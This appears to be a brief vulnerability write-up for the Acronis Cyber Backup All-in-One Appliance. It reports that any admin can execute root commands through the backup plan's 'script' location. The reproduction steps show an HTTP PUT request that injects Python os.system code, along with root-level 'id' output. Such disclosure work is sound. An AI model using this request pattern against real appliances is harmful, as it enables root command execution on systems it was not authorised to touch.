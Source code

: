 # What is it
Acronis Cyber Backup "All-in-one" Appliance

More information can be found [here](https://dl.acronis.com/u/software-defined/html/AcronisCyberInfrastructure_3_5_storage_appliance_quick_start_guide_en-US/managing-storage-backup/creating-vm.html)

## Link
[https://dl.acronis.com/u/AcronisBackup12.5/Release/AcronisBackup_All-in-One_Appliance.zip](https://dl.acronis.com/u/AcronisBackup12.5/Release/AcronisBackup_All-in-One_Appliance.zip)

# Description
Any admin can execute commands as root on the system. Not necessarily a bug, but an noteworthy non-hardened design.

# Repro

1. Adduser test (unprivileged)
2. Settings/Administrator then Add Admin, select test user
3. Login as test
4. Plans, Backup, Create Plan + -> defined by script

```
PUT /api/ams/backup/plan_drafts/5570636D-6D36-45DE-8A30-BC81D912XXXX/location HTTP/1.1
....

{"subscriptionId":"4","operationId":"bc-setlocation-4-8","stageIndex":0,"type":"script","locationScript":"import os\nos.system('id>/tmp/123')","locationCredentials":{},"path":"script.py"}
```

5. Click "Run Now"

```
[root@AcronisAppliance-913D0 web]# cat /tmp/123
uid=0(root) gid=0(root) groups=0(root)
```
